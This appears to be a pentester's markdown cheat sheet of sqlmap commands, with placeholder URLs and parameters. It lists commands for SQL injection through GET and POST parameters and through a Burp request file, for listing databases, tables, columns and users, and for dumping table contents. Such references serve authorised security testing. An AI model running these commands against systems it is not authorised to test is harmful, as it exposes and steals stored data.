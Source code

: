 ## SQLMap
	sqlmap -u [url] --tables
	sqlmap -u [url] --current-db [database] --dump
	sqlmap -u [url] --current-db [database] --columns
### GET (url with param)
	sqlmap -u [url] -p [parameter] --technique=[Technique]
	sqlmap -u [url] -p [parameter] --technique=[Technique] --banner -v3 --fresh-queries
	sqlmap -u [url] -p [parameter] --technique=[Technique] --users
	sqlmap -u [url] -p [parameter] --technique=[Technique] --dbs
	sqlmap -u [url] -p [parameter] --technique=[Technique] -D [database] --tables
	sqlmap -u [url] -p [parameter] --technique=[Technique] -D [database] -T [table] --columns
	sqlmap -u [url] -p [parameter] --technique=[Technique] -D [database] -T [table] -C [columns] --dump

### POST (url without param)
	right click burp resquest and "save to file" [file].req
	sqlmap -r [request file] -p [param] --technique [technique]

	or

	sqlmap -u [url] --data [post login data] -p [param] --technique [technique] --banner
	sqlmap -u [url] --data [post login data] -p [param] --technique [technique] --dbs


### Notes
	--headers="X-forwarded-for:1*"